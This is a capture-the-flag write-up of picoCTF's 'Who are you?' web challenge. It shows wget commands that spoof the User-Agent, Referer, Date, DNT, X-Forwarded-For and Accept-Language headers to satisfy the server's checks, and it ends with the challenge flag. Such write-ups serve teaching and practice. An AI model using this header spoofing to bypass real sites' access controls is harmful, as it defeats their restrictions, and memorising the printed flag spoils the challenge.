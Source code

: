 # Notes

## Challenge: Who are you?

### Given Website link:

```
http://mercury.picoctf.net:1270/
```

After going to the link from a browser it shows a GIF that says

```
Only people who use the official PicoBrowser are allowed on this site!
```

![1st image of the link](/web-exploitation/who-are-you/sitepicture1.png "1st image of the link")

Sending a request using `wget` with different user agents, I found that the user agent `PicoBrowser` is allowed.

```
wget http://mercury.picoctf.net:1270/ -U PicoBrowser
```

From this request i get a html page that says.

```
I don't trust users visiting from another site.
```

So i read up on [Referer](https://www.rfc-editor.org/rfc/rfc2616#page-140) and found that the `Referer` header allows the client to specify, for the server's benefit, the address (URI) of the resource from which the Request-URI was obtained.
I added the `Referer` header to the request.

```
wget http://mercury.picoctf.net:1270/ -U PicoBrowser --header='Referer: http://mercury.picoctf.net:1270/'
```

The html from this request shows the message

```
Sorry, this site only worked in 2018
```

It means that the site will work with date header of 2018. So i added the `Date` header to the request.

```
wget http://mercury.picoctf.net:1270/ -U PicoBrowser --header='Referer: http://mercury.picoctf.net:1270/' --header='Date: Sun, 01 Jan 2018 00:00:00 GMT'
```

The HTML from this request shows the message

```
I don't trust users who can be tracked
```

So, I sent request with [DNT](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/DNT) header.

```
wget http://mercury.picoctf.net:1270/ -U PicoBrowser --header='Referer: http://mercury.picoctf.net:1270/' --header='Date: Sun, 01 Jan 2018 00:00:00 GMT' --header='DNT: 1'
```

After this request the HTML shows the message

```
This website is only for people from Sweden.
```

So to make the request appear as if it is from Sweden, I used the [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) header with a Swedish IP address.

```
wget http://mercury.picoctf.net:1270/ -U PicoBrowser --header='Referer: http://mercury.picoctf.net:1270/' --header='Date: Sun, 01 Jan 2018 00:00:00 GMT' --header='DNT: 1' --header='X-Forwarded-For:85.24.171.84'
```

Not the response HTML shows the message

```
You're in Sweden but you don't speak Swedish?
```

So I used the [Accept-Language](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Language) header to make the request appear as if it is from Sweden and the language is Swedish.

```
wget http://mercury.picoctf.net:1270/ -U PicoBrowser --header='Referer: http://mercury.picoctf.net:1270/' --header='Date: Sun, 01 Jan 2018 00:00:00 GMT' --header='DNT: 1' --header='X-Forwarded-For:85.24.171.84' --header='Accept-Language:sv-SE'
```

After this request the HTML shows the flag.

```
picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_f56f58a5}
```
